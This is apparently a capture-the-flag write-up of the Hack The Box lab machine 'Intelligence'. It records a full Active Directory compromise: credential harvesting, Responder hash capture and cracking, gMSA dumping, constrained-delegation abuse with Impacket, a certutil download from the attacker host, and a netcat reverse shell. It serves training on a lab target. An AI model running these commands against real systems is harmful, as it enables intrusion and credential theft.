

# Intelligence

# Reconnaissance

We started with a full port scan and then we executed a port scan only on the open ports found.

```bash
nmap -vv -A -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49685,49686,49695,49707,59805 -oA nmap/intelligence 10.10.10.248
```




First, we can see that the certificates issued a host DNS name. Let's write it down in our hosts’ file


Accessing the webpage we could see the following page


We notice that has some download links on the home page


Open these files, we can see that are simple PDF files


Let's analyze these files deeply using ExifTool to investigate metadata.

In the first file, we got this:

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/docs]
└──╼ [★]$ exiftool 2020-01-01-upload.pdf
ExifTool Version Number         : 12.16
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 26 KiB
File Modification Date/Time     : 2021:07:08 09:44:14-04:00
File Access Date/Time           : 2021:07:08 12:04:38-04:00
File Inode Change Date/Time     : 2021:07:08 09:44:28-04:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
```

The second one:

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/docs]
└──╼ [★]$ exiftool 2020-12-15-upload.pdf
ExifTool Version Number         : 12.16
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 KiB
File Modification Date/Time     : 2021:07:08 09:44:39-04:00
File Access Date/Time           : 2021:07:08 12:04:36-04:00
File Inode Change Date/Time     : 2021:07:08 09:44:44-04:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
```

As we can see, we have some possible usernames for the host

- william.lee
- jose.williams
- Ian.Duncan
- Richard.Williams
- Veronica.Patel
- David.Reed
- Stephanie.Young
- Anita.Roberts
- Thomas.Valenzuela
- Jessica.Moody
- Travis.Evans
- Danny.Matthews
- Kelly.Long
- Kaitlyn.Zimmerman
- Jason.Patterson*
- Thomas.Hall
- David.Wilson
- Tiffany.Molina*
- Samuel.Richardson
- Teresa.Williamson
- Jessica.Moody
- Brian.Baker
- Jason.Wright
- David.Mcbride
- Nicole.Brock
- John.Coleman
- Scott.Scott
- David.Mcbride
- David.Reed
- Darryl.Harris

After some enumeration, it came to mind to create a wordlist like the documents name pattern (year-month-day-upload.pdf). For that, we created a script in Python and defined the range of years from 2019 to 2021 for the beginning.

```python
#!/usr/bin/python3

import sys

months = ["01", "02", "03", "04", "05", "06", "07", "08", "09", "10", "11", "12"]
days = ["01", "02", "03", "04", "05", "06", "07", "08", "09", "10", "11", "12", "13", "14", "15", "16", "17", "18", "19", "20", "21", "22", "23", "24", "25", "26", "27", "28", "29", "30",>
years = range(2019,2022)

f = open("wordlist-dates.txt", "w")

for year in years:
        for month in months:
                for day in days:
                        f.write(str(year) + "-" + month + "-" + day + "-upload.pdf\n")

f.close()
```

After a lot of work, we got the file named 2020-06-04-upload.pdf there is a password


After some trials, we got the credentials for user tiffany.molina

# Credentials

`Tiffany.Molina:NewIntelligenceCorpUser9876`

`Ted.Graves:Mr.Teddy`

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876'
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

# Brute-Force Directory

Executing a brute-force directories, we got the following results

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]                                                                                                                      
└──╼ [★]$ gobuster-ippsec dir -d -e -u "http://intelligence.htb/" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt" -t 50 -x .txt,.pdf -o gobuster/intelli
gence_root.out
```


Executing another gobuster on the documents' directory, we have found nothing

# Enumeration

## SMB

Using smbclient, we've tried to connect as anonymous user in order to verify if there is any share smb directories or files.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ smbclient -L //10.10.10.248 -N -U ""

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```

Let's try to pass one of those possible usernames  grabbed in the pdf file metadata

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ smbclient -L //10.10.10.248 -N -U "william.lee"
session setup failed: NT_STATUS_LOGON_FAILURE
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ smbclient -L //10.10.10.248 -N -U "jose.williams"
session setup failed: NT_STATUS_LOGON_FAILURE
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ smbclient -L //10.10.10.248 -U "jose.williams"
Enter WORKGROUP\jose.williams's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ smbclient -L //10.10.10.248 -U "william.lee"
Enter WORKGROUP\william.lee's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Tried some common weak passwords, but we weren't successful. So, let's try enumerating with crackmapexec

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ crackmapexec smb intelligence.htb
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
```

Here we got the right version of the operating system Windows that the host has.  Using crackmapexec to enumerate LDAP service, we got it following

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/Intelligence]
└──╼ [★]$ crackmapexec ldap intelligence.htb
LDAP        10.10.10.248    389    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
```

With the Tiffany's credentials, we could enumerate some smb shares

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ smbclient -L //10.10.10.248 -U "tiffany.molina"
Enter WORKGROUP\tiffany.molina's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```

In IT share, we've got

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ smbclient //10.10.10.248/IT -U "tiffany.molina"
Enter WORKGROUP\tiffany.molina's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 18 20:50:55 2021
  ..                                  D        0  Sun Apr 18 20:50:55 2021
  downdetector.ps1                    A     1046  Sun Apr 18 20:50:55 2021
```

In Users Share, we've got the whole user's folder from the system and get the user flag on the Desktop of Tiffany Molina


We also can enumerate all users on the system

```bash
Administrator
All Users
Default
Default User 
Public
Ted.Graves
Tiffany.Molina
```

# Privilege Escalation

We got a script in SMB share’s IT

```bash
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

Well, that script is a PowerShell script that uses an LDAP query to see if it finds any DNS records starting from web*, and then it makes a request to that domain name along with Ted's credential (which will be sent in encrypted form).

We've got some config files on SMB share SYSVOL which are

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ cat GptTmpl01.inf 
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 0
MaximumPasswordAge = -1
MinimumPasswordLength = 7
PasswordComplexity = 0
PasswordHistorySize = 0
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Version]
signature="$CHICAGO$"
Revision=1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
```

And

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ cat GptTmpl02.inf 
[Unicode]
Unicode=yes
[Registry Values]
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
[Version]
signature="$CHICAGO$"
Revision=1
[Privilege Rights]
SeAssignPrimaryTokenPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
SeAuditPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeBatchLogonRight = *S-1-5-32-568,*S-1-5-21-4210132550-3389855604-3437519686-1135,*S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-559,*S-1-5-21-4210132550-3389855604-3437519686-1140
SeChangeNotifyPrivilege = *S-1-1-0,*S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-11,*S-1-5-32-554
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeIncreaseBasePriorityPrivilege = *S-1-5-32-544,*S-1-5-90-0
SeIncreaseQuotaPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
SeInteractiveLogonRight = *S-1-5-93-2-2,*S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-548,*S-1-5-32-549,*S-1-5-32-550,*S-1-5-9
SeLoadDriverPrivilege = *S-1-5-32-544,*S-1-5-32-550
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-1-0,*S-1-5-32-544,*S-1-5-11,*S-1-5-9,*S-1-5-32-554
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-549
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549,*S-1-5-32-550
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-32-544,*S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
SeSystemTimePrivilege = *S-1-5-19,*S-1-5-32-544,*S-1-5-32-549
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
**SeEnableDelegationPrivilege = *S-1-5-32-544**
```

The configuration in red above allows user tiffany to record a new DNS entry on the Domain Controller. We do this using the `dnstool.py`

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[/opt/krbrelayx]
└──╼ [★]$ python3 dnstool.py -u 'intelligence.htb\tiffany.molina' -p 'NewIntelligenceCorpUser9876' --action add -r webjpfdevs.intelligence.htb -d 10.10.16.200 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/opt/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```

After that, we ran the responder to get the hash of user Ted.

## Responder

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]                                                                                                         
└──╼ [★]$ sudo responder -I tun0 -Prv

[HTTP] Sending NTLM authentication request to 10.10.10.248
[HTTP] GET request from: 10.10.10.248     URL: / 
[HTTP] Host             : webjpfdevs 
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:9699a0a712bca2a4:0C6EBDFE74D97EA1835FC3E568847A98:010100000000000033A75B370D76D701A8F7DEC2FDEC0C560000000002000800320033003700440001001E00570049004E002D005400520030003100520043004C004C004B00440034000400140032003300370044002E004C004F00430041004C0003003400570049004E002D005400520030003100520043004C004C004B00440034002E0032003300370044002E004C004F00430041004C000500140032003300370044002E004C004F00430041004C0008003000300000000000000000000000002000007DE84AA7C829529DBD347FCB7E5974A21E5EA753F4B4FC9FBBF235C737C604D60A001000000000000000000000000000000000000900400048005400540050002F007700650062006A007000660064006500760073002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

## Hashes

```bash
Ted.Graves::intelligence:9699a0a712bca2a4:0C6EBDFE74D97EA1835FC3E568847A98:010100000000000033A75B370D76D701A8F7DEC2FDEC0C560000000002000800320033003700440001001E00570049004E002D005400520030003100520043004C004C004B00440034000400140032003300370044002E004C004F00430041004C0003003400570049004E002D005400520030003100520043004C004C004B00440034002E0032003300370044002E004C004F00430041004C000500140032003300370044002E004C004F00430041004C0008003000300000000000000000000000002000007DE84AA7C829529DBD347FCB7E5974A21E5EA753F4B4FC9FBBF235C737C604D60A001000000000000000000000000000000000000900400048005400540050002F007700650062006A007000660064006500760073002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

Running `hashcat`, we could crack Ted's hash.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation/hashes]                                                                                                  
└──╼ [★]$ hashcat -m 5600 ted.graves.hash /usr/share/wordlists/rockyou.txt

TED.GRAVES::intelligence:9699a0a712bca2a4:0c6ebdfe74d97ea1835fc3e568847a98:010100000000000033a75b370d76d701a8f7dec2fdec0c560000000002000800320033003700440001001e00570049004e002d005400520030003100520043004c004c004b00440034000400140032003300370044002e004c004f00430041004c0003003400570049004e002d005400520030003100520043004c004c004b00440034002e0032003300370044002e004c004f00430041004c000500140032003300370044002e004c004f00430041004c0008003000300000000000000000000000002000007de84aa7c829529dbd347fcb7e5974a21e5ea753f4b4fc9fbbf235c737c604d60a001000000000000000000000000000000000000900400048005400540050002f007700650062006a007000660064006500760073002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
```

Executing `crackmapexec` using Ted's credentials, we got this.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ crackmapexec smb 10.10.10.248 -u ted.graves -p 'Mr.Teddy'
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\ted.graves:Mr.Teddy
```

After some research, we've found an interesting article.

[http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

After some more research, we were able to use the [findDelegation.py](http://finddelegation.py) tool from Impacket to find the right SPN name and account.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation/privesc]
└──╼ [★]$ /opt/impacket/build/scripts-3.9/findDelegation.py intelligence.htb/ted.graves:'Mr.Teddy' -dc-ip 10.10.10.248
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

AccountName  AccountType                          DelegationType                      DelegationRightsTo      
-----------  -----------------------------------  ----------------------------------  -----------------------
svc_int$     ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  WWW/dc.intelligence.htb
```

With these AccountName and SPN(DelegationRightsTo) we will try to dump some hashes from gMSA.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[/opt/gMSADumper]
└──╼ [★]$ python3 gMSADumper.py -u ted.graves -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d64b83fe606e6d3005e20ce0ee932fe2
```

We've faced some date time problems, so we got to run this command to sync our time machine with the box.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ sudo net time set -S 10.10.10.248
```

Then execute the `[getST.py](http://getst.py)` to catch an Administrator user Service Ticket and it will save it in `Administrator.ccache`

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ /opt/impacket/build/scripts-3.9/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d64b83fe606e6d3005e20ce0ee932fe2 -impersonate Administrator
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

We have to export a variable `KRB5CCNAME` and set its value with the `Administrator.ccache`

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ export KRB5CCNAME=Administrator.ccache
```

Running [atexec.py](http://atexec.py) we tried to run the `whoami` command to verify if we could get `nt authority\system`

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ /opt/impacket/build/scripts-3.9/atexec.py -k -no-pass dc.intelligence.htb 'whoami'
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

[!] This will work ONLY on Windows >= Vista
[*] Creating task \aGJBseGz
[*] Running task \aGJBseGz
[*] Deleting task \aGJBseGz
[*] Attempting to read ADMIN$\Temp\aGJBseGz.tmp
nt authority\system
```

Now, let's try to upload a `nc64.exe` into the box.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ /opt/impacket/build/scripts-3.9/atexec.py -k -no-pass dc.intelligence.htb 'certutil.exe -urlcache -f http://10.10.16.200:8000/nc64.exe nc.exe'
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

[!] This will work ONLY on Windows >= Vista
[*] Creating task \asdLgHHO
[*] Running task \asdLgHHO
[*] Deleting task \asdLgHHO
[*] Attempting to read ADMIN$\Temp\asdLgHHO.tmp
[*] Attempting to read ADMIN$\Temp\asdLgHHO.tmp
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

And we got a shell using the Netcat that was uploaded to the machine.

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]                                                                                                         
└──╼ [★]$ /opt/impacket/build/scripts-3.9/atexec.py -k -no-pass dc.intelligence.htb 'nc.exe 10.10.16.200 443 -e cmd.exe'                                                                    
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

[!] This will work ONLY on Windows >= Vista
[*] Creating task \HIGUVCju
[*] Running task \HIGUVCju
[*] Deleting task \HIGUVCju
[*] Attempting to read ADMIN$\Temp\HIGUVCju.tmp 
[*] Attempting to read ADMIN$\Temp\HIGUVCju.tmp
```

```bash
─[us-dedivip-1]─[10.10.16.200]─[th3g3ntl3m4n@ctf]─[~/htb/images/exploitation]
└──╼ [★]$ nc -vnlp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.248.
Ncat: Connection from 10.10.10.248:57892.
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

